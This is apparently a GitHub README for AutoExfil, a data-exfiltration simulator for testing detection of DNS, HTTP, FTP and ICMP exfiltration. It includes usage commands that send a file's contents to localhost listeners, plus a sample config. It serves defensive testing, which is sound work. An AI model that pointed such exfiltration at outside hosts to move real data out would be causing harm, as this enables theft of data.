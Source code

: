 # AutoExfil – Automated Data Exfiltration Simulator

Author: mchyasn

## Description

AutoExfil simulates realistic data exfiltration techniques across multiple channels (DNS, HTTP, FTP, ICMP) to evaluate and test the effectiveness of detection systems. It's designed for red teamers, blue teamers, and security engineers to validate defenses, tune alerts, and study data leakage vectors.

## Use Cases

* Red Team: Validate firewall rules, DLPs, and egress controls in real-world environments.
* Blue Team: Simulate MITRE ATT\&CK techniques (e.g., T1041, T1071.001/.002/.004) and fine-tune detection rules.
* Security Engineers: Benchmark SIEM visibility and test exfil coverage across tools.

## Features

* Simulates multiple data exfiltration channels:

  * DNS tunneling (via TXT records)
  * HTTP POST
  * FTP upload
  * ICMP echo data
* AES-256 encryption with key from config
* Chunked and throttled transmissions
* Plugin-based channel system for easy extensibility
* Logs success/failure and per-channel behavior

## Project Structure

```
AutoExfil/
├── channels/
│   ├── dns.py
│   ├── ftp.py
│   ├── http.py
│   └── icmp.py
├── utils/
│   ├── crypto.py
│   └── chunker.py
├── config.json
├── main.py
├── requirements.txt
├── test_autoexfil.py
└── screenshots/
```

## Installation

```bash
git clone https://github.com/yourrepo/AutoExfil
cd AutoExfil
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Usage

Prepare your target file and config.json first.

### DNS

```bash
python main.py dns test_secret.txt
```

### HTTP

```bash
# Start listener in another terminal
python3 -m http.server 8000

# Run exfil
python main.py http test_secret.txt
```

### FTP

```bash
# Start FTP server
python3 -m pyftpdlib -p 2121 -u user -P pass -d /tmp/ftp_home

# Then run:
python main.py ftp test_secret.txt
```

### ICMP

```bash
# Run tcpdump to observe ICMP
sudo tcpdump -i lo icmp

# Then:
sudo python main.py icmp test_secret.txt
```

## Configuration (config.json)

```json
{
  "dns_domain": "example.com",
  "http_endpoint": "http://localhost:8000/upload",
  "ftp_server": "127.0.0.1",
  "ftp_port": 2121,
  "ftp_user": "user",
  "ftp_pass": "pass",
  "icmp_target": "127.0.0.1",
  "encryption_key": "SuperSecretKey1234",
  "chunk_size": 20,
  "throttle": 0.5
}
```

## Screenshots

Refer to the `screenshots/` directory for CLI outputs and channel-specific examples.

## Author

Developed by mchyasn
